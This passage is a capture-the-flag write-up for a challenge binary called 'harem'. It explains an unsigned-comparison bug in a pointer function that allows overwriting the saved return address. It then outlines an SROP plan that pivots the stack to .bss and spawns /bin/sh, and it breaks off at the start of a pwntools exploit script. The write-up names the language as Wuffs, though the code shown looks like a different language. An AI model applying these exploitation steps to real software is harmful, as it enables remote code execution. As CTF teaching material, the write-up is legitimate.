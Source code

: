 ```wuffs
            case => fmt::println("Invalid option")!;
        };
    };
};
```
We have the source code of the binary which writtern in [wuffs language](https://github.com/google/wuffs/blob/main/doc/wuffs-the-language.md).

There is a bug in the function `ptr-back`:

```
fn ptr_back(p: *u8) void = {
    if (*p - 1 < 0) {
        fmt::println("error: out of bounds seek")!;
    } else {  
        *p -= 1;
    };
    return;
};
```
Because the type of p is unsigned, `*p-1` never be `less` than `0`.

I will take advantage of this bug to set `idx = 0xa`. So we can overwrite `saved $RIP`.

![image](https://github.com/robbert1978/robbert1978.github.io.old/assets/31349426/3f92a732-3ad9-4b9e-a208-985aa0bb169a)

`Checksec` tells us that the binary has `RWX` segment. But when I check in `gdb`, there is no `RWX` segment so we must forcus on `ROP` attack.

![image](https://user-images.githubusercontent.com/31349426/257211640-2132743b-b96e-4e4d-83ae-d266204e2ca3.png)

Almost gadgets are end of with `leave ;ret `, so it's so hard to use these gadgets to create a useful rop chain.

But when analyzing functions list, I found the `rt_restore_si` function:

![image](https://user-images.githubusercontent.com/31349426/257212223-22eebbc5-605d-4a27-bf2a-adbd6a567811.png)


So I will use `SROP` technique to exploit this binary. Because there is no `/bin/sh` string in the binary, I must find the way to store `/bin/sh` on `.bss` segment.

This is my stratergy:

1. Create a `SROP` chain that makes stack pivot to `.bss` segment.

2. Create a `SROP` chain that calls `execve("/bin/sh",0,0)` (We can store `/bin/sh` after the chain to ensure that the address of string `/bin/sh` are always fixed).

```python
#!/usr/bin/env python
from pwn import *
from time import sleep
from os import popen
context.binary = e = ELF("./harem")

gs="""
b *0x00000000080009E3 
"""
def start():
    if args.LOCAL:
        p=e.process()
        if args.GDB:
            gdb.attach(p,gdbscript=gs)
            pause()
    elif args.REMOTE:
        p=remote(args.HOST,int(args.PORT))
        p.recvuntil(b'proof of work: ')
```